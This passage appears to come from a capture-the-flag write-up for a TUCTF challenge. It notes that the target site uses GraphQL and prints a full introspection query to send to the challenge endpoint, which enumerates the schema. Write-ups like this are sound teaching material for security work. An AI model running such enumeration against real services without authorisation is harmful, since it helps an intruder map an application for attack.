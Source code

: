 ```javascript

    const result = await response.json();
    displayDoctorInfo(result.data.doctor);
}
```

This highlights that the web application leverages **GraphQL** for managing and delivering data to the client.

## Exploit

It is possible to try list and read the **GraphQL** application schema and types by sending the following data to https://med-graph.tuctf.com/graphql (e.g. with **Postman**).

```graphql
{
  __schema {
    queryType {
      name
    }
    mutationType {
      name
    }
    subscriptionType {
      name
    }
    types {
      name
      kind
      fields {
        name
        type {
          name
          kind
          ofType {
            name
            kind
          }
        }
      }
      inputFields {
        name
        type {
          name
          kind
          ofType {
            name
            kind
          }
        }
      }
      interfaces {
        name
      }
      enumValues {
        name
      }
      possibleTypes {
        name
      }
    }
  }
}
```